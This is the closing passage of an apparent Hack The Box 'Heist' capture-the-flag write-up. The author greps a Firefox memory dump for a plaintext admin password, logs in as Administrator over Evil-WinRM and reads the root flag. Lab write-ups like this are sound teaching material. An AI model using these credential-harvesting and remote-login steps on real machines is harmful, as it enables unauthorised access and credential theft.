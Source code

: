 Lets try to just look for the string password? That seems like the easiest way, I honestly have no idea what to look for.

```console
Evil-WinRM* PS C:\Users\Chase\Documents> gc firefox_6152.dmp | % { if($_match "password") {write-host %_}}

localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```
Great, that seems like a password potentially - lets try to connect with that?

```console
root@endeavour:~/htb/heist/evil-winrm# ./evil-winrm.rb -i 10.10.10.149 -u Administrator -p '4dD!5}x/re8]FBuZ'

Info: Starting Evil-WinRM shell v1.6

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name                                                                                                                                                                                                    
----                -------------         ------ ----                                                                                                                                                                                                    
-a----        4/22/2019   9:05 AM             32 root.txt    

*Evil-WinRM* PS C:\Users\Administrator\Desktop> Get-Content root.txt
50dfa********************66897

```

Root!

# Conclusion
The biggest takeaway from this box was an amendment to my initial enumeration process. I should always check all of the ports -- not just the popular ones. Otherwise this box was pretty fun, the memory dump was something I hadn't ever done before and was pretty interesting.

